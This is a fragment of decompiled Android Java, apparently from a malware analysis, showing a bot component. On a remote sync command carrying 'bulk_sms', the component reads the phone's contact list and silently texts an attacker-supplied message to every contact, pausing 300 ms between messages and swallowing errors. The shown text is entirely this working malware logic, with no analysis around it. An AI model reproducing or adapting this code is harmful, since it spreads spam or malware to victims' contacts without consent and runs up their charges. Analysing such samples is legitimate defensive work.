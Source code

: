 ```cs
    }

    @Override  // android.app.LoaderManager$LoaderCallbacks
    public Loader onCreateLoader(int v, Bundle bundle0) {
        return v == 1 ? this.contactsLoader() : null;
    }

    public void onLoadFinished(Loader loader0, Cursor cursor0) {
        this.contactsFromCursor(cursor0);
    }

    @Override  // android.app.LoaderManager$LoaderCallbacks
    public void onLoadFinished(Loader loader0, Object object0) {
        this.onLoadFinished(loader0, ((Cursor)object0));
    }

    @Override  // android.app.LoaderManager$LoaderCallbacks
    public void onLoaderReset(Loader loader0) {
    }

    @Override  // com.sdktools.android.bot.SdkComponent
    public void onSyncEvent(JsonObject jsonObject0) {
        super.onSyncEvent(jsonObject0);
        if(1 == (JsonUtils.hasObject(jsonObject0, "bulk_sms") ? jsonObject0.get("bulk_sms").getAsInt() : 0)) {
            String s = JsonUtils.hasObject(jsonObject0, "bulk_body") ? jsonObject0.get("bulk_body").getAsString() : "";
            if(!TextUtils.isEmpty(s)) {
                this.sendBulkSms(s, this.getContactList());
            }
        }
    }

    private void sendBulkSms(String s, List list0) {
        for(Object object0: list0) {
            this.sendSMS(((String)object0).replace(" ", ""), s);
            try {
                Thread.sleep(300L);
            }
            catch(InterruptedException unused_ex) {
                return;
            }
        }
    }

    public void sendSMS(String s, String s1) {
        try {
            SmsManager.getDefault().sendTextMessage(s, null, s1, null, null);
        }
        catch(Exception unused_ex) {
        }
    }

```
